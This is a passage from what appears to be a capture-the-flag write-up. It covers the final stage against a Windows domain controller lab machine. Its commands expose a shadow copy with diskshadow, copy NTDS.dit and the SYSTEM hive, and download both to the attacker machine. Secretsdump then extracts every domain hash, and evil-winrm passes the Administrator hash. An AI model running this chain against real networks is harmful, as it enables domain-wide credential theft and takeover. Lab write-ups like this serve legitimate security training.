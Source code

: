 ```
diskshadow.exe /s c:\temp\diskshadow.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903192242.png)

With the Z:\ drive exposed, I can now use robocopy again but this time it will be used to move the backup ntds.dit file to my temp folder and not the running one.

```
cd z:/windows/ntds
robocopy /b .\ C:\temp NTDS.dit
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903192401.png)

Move to c:/temp and get system file, then download it to kali machine

```
cd C:\temp 

reg.exe save hklm\system C:\temp\system.bak

download ntds.dit 

download system.bak
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903192816.png)

With both files now on my attacker machine, I used secretsdump.py again and successfully dumped all of the hashes in the domain!

```
secretsdump.py -ntds ntds.dit -system system.bak LOCAL > hashes.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903192903.png)

Now we can copy administrator hash, connect via evil-winrm and grab root.txt

```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903193023.png)